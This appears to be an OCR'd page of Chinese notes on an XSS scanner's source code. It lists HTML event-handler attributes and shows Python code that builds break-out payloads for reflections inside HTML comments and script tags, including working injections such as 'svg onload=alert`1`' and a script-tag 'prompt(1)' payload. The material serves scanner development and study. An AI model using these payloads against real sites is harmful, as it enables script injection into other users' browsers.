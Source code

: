 ```python
                      'onafterprint', 'oncanplaythrough', 'onhaschange', 'onscroll', 'onended', 'onloadedmetadata',
                      'ontouchmove', 'onmouseover', 'onbeforeunload', 'onloadend', 'ondragover', 'onkeyup',
                      'onmessage',
                      'onpopuphidden', 'onbeforecopy', 'onclose', 'onvolumechange', 'onpropertychange', 'ondblclick',
                      'onmousedown', 'onrowinserted', 'onpopupshowing', 'oncommandupdate', 'onerrorupdate',
                      'onpopupshown',
                      'ondurationchange', 'onbounce', 'onerror', 'onend', 'onblur', 'onfilterchange', 'onload',
                      'onstart',
                      'onunderflow', 'ondragexit', 'ontransitionend', 'ondeactivate', 'ontouchstart', 'onpointerout',
                      'onpointermove', 'onwheel', 'onpointerover', 'onloadeddata', 'onpause', 'onrepeat',
                      'onmouseenter',
                      'ondatasetchanged', 'onbegin', 'onmousemove', 'onratechange', 'ongesturechange',
                      'onlosecapture',
                      'onplaying', 'onfocus', 'onrowsdelete']
```

也是直接搞个随机数写到value里看回显来判断  


##### 如果回显位置是注释里  

闭合的payload是  
```python
for _payload in ["-->", "--!>"]:
    payload = "{}<{}>".format(_payload, flag)
```

如果没被转义 那么可用的payload `payload.format(_payload, "svg onload=alert`1`")`  


##### 如果回显位置是script里

闭合的payload  
```python
script_tag = random_upper(details["tagname"])
payload = "</{}><{}>{}</{}>".format(script_tag,
                                script_tag, flag,
                                script_tag)
```

可用的payload  

```python
truepayload = "</{}><{}>{}</{}>".format(script_tag,
                                        script_tag, "prompt(1)",
                                        script_tag)
```
